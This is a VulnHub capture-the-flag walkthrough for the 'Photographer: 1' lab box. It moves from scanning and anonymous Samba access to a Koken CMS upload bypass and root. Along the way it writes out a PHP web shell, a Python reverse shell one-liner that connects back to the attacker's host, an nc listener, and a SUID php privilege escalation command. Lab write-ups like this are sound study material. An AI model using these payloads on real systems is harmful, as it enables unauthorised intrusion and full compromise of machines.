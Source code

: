 # Photographer: 1 Writeup, Walkthrough
https://www.vulnhub.com/entry/photographer-1,519/

## First, I have to get the IP address of the box

-       sudo netdiscover -t eth1
    - IP address = 192.168.190.148

## Enumeration 
- I run a nmap scan to see what ports are open and what services are running.
    -       nmap -sC -sV -oN nmap.txt 192.168.190.149
    - Open ports
        - 80 HTTP - Apache httpd 2.4.18
        - 8000 HTTP - Apache httpd 2.4.38
        - 139 netbios-ssn - Samba 
        - 445 netbios-ssn - Samba
        - ![](pix/nmap.png)

- Using smbclient I can see the shares on the Samba server without a password. 
    -     smbclient -L //192.168.190.148/
    - ![](pix/samba1.png)
    - The folder named sambashare looks interesting, let's see what's in there.
- Once again, using smbclient I can see what's in the sambashare folder without a password.
    - There are two files in there, I can download then using `get [filename]` command
    - ![](pix/samba2.png)
- Inside the mailsent.txt file, I found 2 emails that might be useful. 
    -     Agi Clarence <agi@photographer.com>
          Daisa Ahomi <daisa@photographer.com> 



- #### Enumerating the webpages.
- The page on port 80 is a standard webpage with a lot of images. I read the page source and there isn't anything helpful in there. 
 - I ran a gobuster scan using `directory-list-2.3-medium.txt`  wordlist. Few directory were found but nothing that will help me gain a foothold into the server.
    - ![](pix/80.png)
- Then I move onto the page on port 8000
    - The webpage is using Koken CMS which is vulnerable to Arbitrary File Upload but I have to authenticated
    - Trying /admin brings me to a log in page that askes for email and password. Luckily we have 2 to try.
    - ![](pix/koken1.png) 
- Looking back at the mailsent.txt, the email mentions a secret, `my babygirl`
    - ![](pix/mailsent.png)
- After several attempts, I got a successful login with daisa@photographer.com:babygirl

- Googling `koken cms exploit` led me to Exploit-DB that shows how to upload an image file with hidden php code to execute command.
    - https://www.exploit-db.com/exploits/48706

- ### Steps to exploit
    - Create a malicious PHP file with this content:<br />
    ```<?php system($_GET['cmd']);?>```
    - Save as "image.php.jpg"
    - Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.
    - On Burp, rename your file to "image.php", then forward the request.
    - ![](pix/burp.png)
    - There should now be a image.php file under content.
    - To execute commands, head over to /content and click on the image file. Then click download, which takes me to the full path of the file. From there I can type my commands into the url. A simple `whoami` comes back as www-data.
        - ![](pix/cmd.png)
- Now that I can exexute commands, I can send myself a reverse shell using python
    - Put the command after cmd= in `http://192.168.190.148:8000/storage/originals/44/31/image.php?cmd=`

    -     export RHOST="192.168.190.143";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

    
- To catch the revers shell, I setup a listener using `nc -lnvp 4242` on my machine 
- aaaand we have a shell as www-data
    - To upgrade the shell I used <br />
        -     python -c 'import pty;pty.spawn("/bin/bash")'

    - ![](pix/shell1.png)



## Privilege Escalation

- `sudo -l` requires  a password so no luck there.
- The user.txt is in /home/daisa/user.txt
- There is a .bash_history file in /home/agi but no read permission.

- Checking for SUID binaries
    -     find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
- ![](pix/suid.png)
- /usr/bin/php7.2 looks interesting
- upon checking [gtfobins](https://gtfobins.github.io/gtfobins/php/#suid), it looks like php can be abused to spawn a root shell.
    - ![](pix/gtfobin.png)
- Running this command should give me a root shell.
-     /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

- ![](pix/root.png)
- Now I can read proof.txt in /root



### bada bing bada boom .... I have rooted Photographer: 1

